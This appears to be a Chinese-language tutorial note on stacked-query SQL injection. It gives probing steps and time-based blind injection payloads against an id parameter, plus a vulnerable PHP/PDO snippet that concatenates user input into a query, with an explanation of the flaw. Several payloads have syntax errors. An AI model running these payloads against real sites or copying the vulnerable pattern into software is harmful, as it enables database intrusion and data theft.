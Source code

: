  - 堆叠查询可以执行多条SQL语句，语句之间用 `;` 隔开

1. 先访问`id=1'`查看页面是否会报错
2. 在访问`id=1' %23`，页面返回正常也已使用`布尔盲注` `延时注入` ，也可以使用`堆叠注入`
3. 完整的SQL注入语句`';select if(substr(select table_name from information_schema.tables where table_schema=database limit 0,1),1, 1)='e', sleep(3), 1)%23`


# 代码分析

 - 在堆叠注入中程序获取的是GET传参的id，使用PDO的方式进行数据查询，但仍然将参数ID拼接到查询语句中，导致PDO没起到预编译的作用，程序扔存在SQL注入

```
<?php
try{
    $conn = new PDO("mysql:host=localhost;dbname=test", "root", "root");
    $conn -> setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    $stmt = $conn -> query("select * from users where 'id' = '" . $GET['id'] . "'");
    $result = $stmt -> setFetchMode(PDO::FETCH_ASSOC);
    foreach($stmt -> fetchall() as $k => $v) {
        foreach ($v as $key => $value){
            echo $value;
        }
    }
    $dsn = null;
}
catch(PDOException $e){
    echo "error";
}
$conn = null;
?>
```

 - 使用PDO执行SQL语句时，可以执行多条，不过这样通常不能直接得到注入结果，因为PDO只会返回第一条SQL语句执行的结果，所以在第二条语句中使用`update`更新数据或者`延时盲注`获取数据
 - 访问`1.php?id=1';select if(ord(substr(select table_name from information_schema.tables where table_schema=database limit 0,1),1, 1)='e', 1, 1), sleep(3), 1)%23`，执行的SQL语句为
```
select * from users where 'id'='1';select if(ord(substr(select table_name from information_schema where table_schema=database())='a', 1, 1), sleep(3), 1)%23'
```

 - 分号前后代表两条数据

`select * from users where 'id'='1';`<br>
`select if(ord(substr(select table_name from information_schema where table_schema=database())='a', 1, 1), sleep(3), 1)%23'`
